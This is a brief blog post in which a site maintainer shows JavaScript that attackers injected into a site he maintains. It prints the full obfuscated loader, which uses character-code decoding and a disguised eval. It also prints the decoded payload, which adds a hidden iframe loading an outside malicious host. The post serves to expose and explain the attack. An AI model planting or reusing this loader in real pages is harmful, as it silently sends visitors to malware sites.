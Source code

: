 ```yaml
---
layout: post
title: 'JavaScript injection '
created: 1334118246
author: igorz
permalink: javascript-injection
tags:
- JS
- injection
---
```

<p><span class="objectBox objectBox-string " role="presentation">This JavaScript code was injected to the main page of the one of not well protected sites I am happy to maintain:</span><br />
</p>
<p><br />
<i>c=3-1;i=c-2;if(</i></p>
<div dir="ltr"><wbr></wbr><i>window.document)if(parseInt(&quot;</i><wbr></wbr><i>0&quot;+&quot;1&quot;+&quot;2&quot;+&quot;3&quot;)===83)try{Date(</i><wbr></wbr><i>).prototype.q}catch(egewgsd){</i><wbr></wbr><i>f=['-31i-31i65i62i-</i><wbr></wbr><i>8i0i60i71i59i77i69i61i70i76i6i</i><wbr></wbr><i>63i61i76i29i68i61i69i61i70i76i</i><wbr></wbr><i>75i26i81i44i57i63i38i57i69i61i</i><wbr></wbr><i>0i-1i58i71i60i81i-</i><wbr></wbr><i>1i1i51i8i53i1i83i-27i-31i-31i-</i><wbr></wbr><i>31i65i62i74i57i69i61i74i0i1i19</i><wbr></wbr><i>i-27i-31i-31i85i-</i><wbr></wbr><i>8i61i68i75i61i-8i83i-27i-31i-</i><wbr></wbr><i>31i-</i><wbr></wbr><i>31i60i71i59i77i69i61i70i76i6i7</i><wbr></wbr><i>9i74i65i76i61i0i-</i><wbr></wbr><i>6i20i65i62i74i57i69i61i-</i><wbr></wbr><i>8i75i74i59i21i-</i><wbr></wbr><i>1i64i76i76i72i18i7i7i63i65i63i</i><wbr></wbr><i>57i76i61i74i65i57i6i65i70i7i65</i><wbr></wbr><i>i70i6i59i63i65i23i15i-1i-</i><wbr></wbr><i>8i79i65i60i76i64i21i-1i9i8i-</i><wbr></wbr><i>1i-8i64i61i65i63i64i76i21i-</i><wbr></wbr><i>1i9i8i-1i-</i><wbr></wbr><i>8i75i76i81i68i61i21i-</i><wbr></wbr><i>1i78i65i75i65i58i65i68i65i76i8</i><wbr></wbr><i>1i18i64i65i60i60i61i70i19i72i7</i><wbr></wbr><i>1i75i65i76i65i71i70i18i57i58i7</i><wbr></wbr><i>5i71i68i77i76i61i19i68i61i62i7</i><wbr></wbr><i>6i18i8i19i76i71i72i18i8i19i-</i><wbr></wbr><i>1i22i20i7i65i62i74i57i69i61i22</i><wbr></wbr><i>i-6i1i19i-27i-31i-31i85i-27i-</i><wbr></wbr><i>31i-</i><wbr></wbr><i>31i62i77i70i59i76i65i71i70i-</i><wbr></wbr><i>8i65i62i74i57i69i61i74i0i1i83i</i><wbr></wbr><i>-27i-31i-31i-31i78i57i74i-</i><wbr></wbr><i>8i62i-8i21i-</i><wbr></wbr><i>8i60i71i59i77i69i61i70i76i6i59</i><wbr></wbr><i>i74i61i57i76i61i29i68i61i69i61</i><wbr></wbr><i>i70i76i0i-</i><wbr></wbr><i>1i65i62i74i57i69i61i-</i><wbr></wbr><i>1i1i19i62i6i75i61i76i25i76i76i</i><wbr></wbr><i>74i65i58i77i76i61i0i-</i><wbr></wbr><i>1i75i74i59i-1i4i-</i><wbr></wbr><i>1i64i76i76i72i18i7i7i63i65i63i</i><wbr></wbr><i>57i76i61i74i65i57i6i65i70i7i65</i><wbr></wbr><i>i70i6i59i63i65i23i15i-</i><wbr></wbr><i>1i1i19i62i6i75i76i81i68i61i6i7</i><wbr></wbr><i>8i65i75i65i58i65i68i65i76i81i2</i><wbr></wbr><i>1i-1i64i65i60i60i61i70i-</i><wbr></wbr><i>1i19i62i6i75i76i81i68i61i6i72i</i><wbr></wbr><i>71i75i65i76i65i71i70i21i-</i><wbr></wbr><i>1i57i58i75i71i68i77i76i61i-</i><wbr></wbr><i>1i19i62i6i75i76i81i68i61i6i68i</i><wbr></wbr><i>61i62i76i21i-1i8i-</i><wbr></wbr><i>1i19i62i6i75i76i81i68i61i6i76i</i><wbr></wbr><i>71i72i21i-1i8i-</i><wbr></wbr><i>1i19i62i6i75i61i76i25i76i76i74</i><wbr></wbr><i>i65i58i77i76i61i0i-</i><wbr></wbr><i>1i79i65i60i76i64i-1i4i-1i9i8i-</i><wbr></wbr><i>1i1i19i62i6i75i61i76i25i76i76i</i><wbr></wbr><i>74i65i58i77i76i61i0i-</i><wbr></wbr><i>1i64i61i65i63i64i76i-1i4i-</i><wbr></wbr><i>1i9i8i-1i1i19i-27i-31i-31i-</i><wbr></wbr><i>31i60i71i59i77i69i61i70i76i6i6</i><wbr></wbr><i>3i61i76i29i68i61i69i61i70i76i7</i><wbr></wbr><i>5i26i81i44i57i63i38i57i69i61i0</i><wbr></wbr><i>i-1i58i71i60i81i-</i><wbr></wbr><i>1i1i51i8i53i6i57i72i72i61i70i6</i><wbr></wbr><i>0i27i64i65i68i60i0i62i1i19i-</i><wbr></wbr><i>27i-31i-31i85'][0].split('i');</i><wbr></wbr><i>v=&quot;ev&quot;+&quot;a&quot;+&quot;l&quot;;}if(v)e=window[</i><wbr></wbr><i>v];w=f;s=[];r=String;for(;565!</i><wbr></wbr><i>=i;i+=1){j=i;s+=r[&quot;fr&quot;+&quot;omC&quot;+&quot;</i><wbr></wbr><i>harCode&quot;](40+1*w[j]);}<br />
if(f)z=s;e(z);</i></div>
<p>&nbsp;</p>
<p><br />
<span class="objectBox objectBox-string " role="presentation">Last expression&nbsp; </span><i>e(z) </i>evaluates following code:</p>
<p>&nbsp;</p>
<p><br />
<br />
<i><span class="objectBox objectBox-string " role="presentation">if  (document.getElementsByTagName('body')[0]){&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp; &nbsp;&nbsp; iframer();&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">} else {&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; document.write(&quot;&quot;);&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">}&nbsp;</span></i><br />
<br />
<i><span class="objectBox objectBox-string " role="presentation">function iframer(){&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; var f =  document.createElement('iframe');</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.setAttribute('src','http://gigateria.in/in.cgi?7');</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.style.visibility='hidden';</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.style.position='absolute';</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.style.left='0';</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.style.top='0';</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.setAttribute('width','10');</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; f.setAttribute('height','10');&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">&nbsp;&nbsp;&nbsp; document.getElementsByTagName('body')[0].appendChild(f);&nbsp;</span></i><br />
<i><span class="objectBox objectBox-string " role="presentation">}</span></i><br />
</p>
<p><br />
<span class="objectBox objectBox-string " role="presentation">It is amazing,&nbsp;</span><i><span class="objectBox objectBox-string " role="presentation"> </span></i><span class="objectBox objectBox-string " role="presentation">how people create such things. This have to be a special state of mind.</span></p>

